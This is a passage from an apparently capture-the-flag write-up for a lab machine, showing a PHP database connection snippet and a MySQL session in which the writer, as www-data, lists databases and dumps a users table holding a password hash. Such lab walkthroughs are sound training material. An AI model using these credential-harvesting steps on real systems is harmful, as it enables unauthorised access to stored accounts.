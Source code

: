             $dbh = new mysqli($dbaddr, $dbuser, $dbpass, $database);
            if($dbh->connect_error){
                    die($dbh->connect_error);
            }
    ?>
    ```
---

### Access the database and discover the encrypted credentials. What is the name of the database you find these in?
- **Answer:** tron
- **Steps to Reproduce:** 
    ```bash
    www-data@light-cycle:/var/www/TheGrid/includes$ mysql -utron -p
    Enter password: 
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 7
    Server version: 5.7.32-0ubuntu0.18.04.1 (Ubuntu)

    Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    mysql> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | tron               |
    +--------------------+
    2 rows in set (0.02 sec)

    mysql> use tron
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    mysql> show tables;
    +----------------+
    | Tables_in_tron |
    +----------------+
    | users          |
    +----------------+
    1 row in set (0.00 sec)

    mysql> select * from users;
    +----+----------+----------------------------------+
    | id | username | password                         |
    +----+----------+----------------------------------+
    |  1 | flynn    | edc621628f6d19a13a00fd683f5e3ff7 |
    +----+----------+----------------------------------+
    1 row in set (0.00 sec)
    ```
---
